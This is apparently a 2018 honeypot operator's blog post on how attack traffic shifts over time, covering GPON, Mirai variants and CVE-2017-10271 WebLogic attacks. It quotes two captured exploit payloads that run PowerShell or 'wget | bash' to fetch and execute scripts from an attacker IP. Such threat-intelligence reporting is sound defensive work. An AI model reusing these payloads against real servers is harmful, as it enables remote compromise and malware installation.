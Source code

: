 ```yaml
---
title: "Attack Movement"
#author: "Author Name"
description: "Discussion about general movement of attackers from one attack type to another over time"
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-06-14T00:00:00-00:00
draft: false
---
```

It's strange how attacks seem to move around on a weekly/monthly basis.  Up until recently I saw a number of attacks against GPON, and today I don't see a single one.  There is some probability in this - I occupy only a small amount of IP space, so with a given number of attackers throwing a given number of attacks per second, some portion of the IP space less than 100% will be hit.  Tomorrow maybe I'll see some GPON again.  Certainly, though, it seems like the frequency of GPON attacks have gone down, and perhaps that reflects some lowered success rate by hackers.  Maybe owners of that software have mostly patched by now, or maybe attackers have closed off the attack vector behind them, leaving the others to wish they'd gotten there first.

I always see lots of Mirai and Mirai-derived traffic.  There's no shortage.  This has begun to change recently - I see new filenames being used periodically.  This morning I found a download link in both FTP and HTTP, repeated a bunch, using techniques similar to Mirai to get in, that happened around midnight.  When I went to download the files though - the target did not respond.  Perhaps the attacker uses some modicum of opsec - closing down ports when not actively attacking, or possibly even only opening ports to targets he/she is actively exploiting.  The attacker was coming directly from the same address they were offloading the infection script from, too.  That is a little different than most Mirai traffic I've seen - redirecting to some central C2/download point.  Alternatively - it was just the first reaches of someone who was trying to spread their botnet.

Back on port 8080 though, I've seen a huge increase in recent days of traffic to /wls-wsat/CoordinatorPortType.  This seems to be related to CVE-2017-10271, which is not new.  This bug is 6-9 months old...  Here are a couple ways exploitation is attempted.

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3" >
            <void index="0">
              <string>cmd</string>
            </void>
            <void index="1">
              <string>/c</string>
            </void>
            <void index="2">
              <string>cmd /c powershell.exe -w 1 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command iex ((New-Object System.Net.WebClient).DownloadString('hxxp://107.181.174.232/win/checking.ps1'))</string>
            </void>
          </array>
          <void method="start"/>
        </void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3" >
            <void index="0">
              <string>/bin/sh</string>
            </void>
            <void index="1">
              <string>-c</string>
            </void>
            <void index="2">
              <string>wget --user-agent linux -O - hxxp://107.181.174.232/lin/st.sh | bash</string>
            </void>
          </array>
          <void method="start"/>
        </void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

Two download attempts, same IP address.  Unfortunately, again, when attempting download later on, some router or firewall has blackholed this host - now a device in the route responds with "No route to host".  Probably "Total Server Solutions L.L.C." noticed the attack traffic and blackholed the host, or perhaps they "no route to host" any address that is not actively in use to cut down on bot traffic, and the user stopped their VM.

UPDATE - the cat came back the very next day!  The Mirai-like traffic came back with a similar attack pattern as yesterday.  It seems like the same individual, now coming from a different IP address.  This time, 167.99.215.155, part of DigitalOcean's chunk of IPs.  And, this brings a new site to my attention, urlhaus.abuse.ch.  It seems very relevant to what I'm trying to do.  I see that this site has already reported that IP address to DigitalOcean as abuse, and that they have reported the other IP address I see in my logs with the same Mirai-like traffic - 159.65.195.209 - another DigitalOcean address.  This actor, assuming it's all one person, which seems possible, must be tired of hopping addresses.

Also - based upon some of the behavior of this malware, I'd say it's the iDdosYou variant of Mirai.

